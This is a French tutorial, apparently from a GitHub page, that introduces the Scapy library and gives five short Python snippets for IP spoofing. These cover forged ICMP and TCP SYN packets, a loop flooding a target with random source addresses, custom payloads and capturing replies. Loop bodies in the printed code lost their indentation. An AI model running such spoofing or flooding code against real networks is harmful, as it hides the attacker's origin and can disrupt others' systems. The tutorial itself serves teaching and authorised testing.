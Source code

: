 **Présentation de Scapy et Contexte** :  
Scapy est une bibliothèque Python puissante conçue pour l'analyse, la manipulation, l'envoi et la réception de paquets réseau. Elle est largement utilisée dans les domaines de la cybersécurité, du diagnostic réseau et des tests de pénétration grâce à sa flexibilité et à sa compatibilité avec de nombreux protocoles (TCP, UDP, ICMP, ARP, DNS, etc.).

Dans le cadre d'un IP Spoofing, contrairement à d'autres outils préconfigurés, Scapy permet de personnaliser chaque champ du paquet (adresse IP source, protocoles, payload, etc.), rendant possible la simulation de scénarios complexes et ciblés. De plus, sa simplicité d'utilisation via Python en fait un outil puissant pour les tests de pénétration, l'évaluation des pare-feu et la recherche en cybersécurité  
### **Commandes Scapy pour l'IP Spoofing**

L'IP Spoofing consiste à falsifier l'adresse IP source d'un paquet pour masquer son origine ou simuler une autre identité. Voici les principales commandes Scapy pour réaliser un IP Spoofing :

---

#### **1. Envoyer un paquet IP avec une adresse source falsifiée**  
Envoyer un paquet ICMP avec une adresse IP source falsifiée :

```python  
from scapy.all import *

# Création et envoi d'un paquet IP spoofé  
spoofed_pkt = IP(src="192.168.1.100", dst="192.168.1.1")/ICMP()  
send(spoofed_pkt)  
```

---

#### **2. IP Spoofing avec une requête TCP SYN**  
Envoyer un paquet TCP avec un drapeau SYN et une adresse IP source falsifiée :

```python  
from scapy.all import *

# Création d'un paquet TCP spoofé  
spoofed_syn = IP(src="10.0.0.100", dst="192.168.1.1")/TCP(dport=80, flags="S")  
send(spoofed_syn)  
```

---

#### **3. Envoi en masse de paquets spoofés**  
Envoyer plusieurs paquets avec des adresses IP source aléatoires :

```python  
from scapy.all import *  
import random

# Génération d'une adresse IP aléatoire  
def random_ip():  
return ".".join(map(str, (random.randint(1, 255) for _ in range(4))))

# Envoi massif de paquets spoofés  
for _ in range(100):  
spoofed_pkt = IP(src=random_ip(), dst="192.168.1.1")/ICMP()  
send(spoofed_pkt)  
```

---

#### **4. IP Spoofing avec un payload personnalisé**  
Ajouter une charge utile au paquet spoofé :

```python  
from scapy.all import *

# Paquet spoofé avec un payload personnalisé  
spoofed_payload = IP(src="192.168.1.100", dst="192.168.1.1")/ICMP()/Raw(load="Custom Payload")  
send(spoofed_payload)  
```

---

#### **5. Capturer et analyser les réponses aux paquets spoofés**  
Capturer les réponses générées par les paquets spoofés envoyés :

```python  
from scapy.all import *

# Envoi d'un paquet spoofé et capture des réponses  
spoofed_pkt = IP(src="192.168.1.100", dst="192.168.1.1")/ICMP()  
ans, unans = sr(spoofed_pkt, timeout=2)

# Affichage des réponses  
ans.summary()  
```

---  
### **Conclusion**

L'IP Spoofing, bien que couramment utilisé dans les tests de sécurité, est une technique puissante qui permet de falsifier l'origine d'un paquet réseau. Avec **Scapy**, cette méthode devient accessible et flexible grâce à sa capacité à manipuler les paquets avec précision et à simuler divers scénarios réseau.

Cependant, il est essentiel de rappeler que l'IP Spoofing, comme toutes les techniques de pentest, doit être réalisé uniquement dans un cadre légal et éthique, avec l'autorisation explicite des propriétaires des systèmes testés. Scapy est un outil incontournable pour les professionnels du réseau, mais son utilisation doit toujours respecter les bonnes pratiques en matière de cybersécurité.
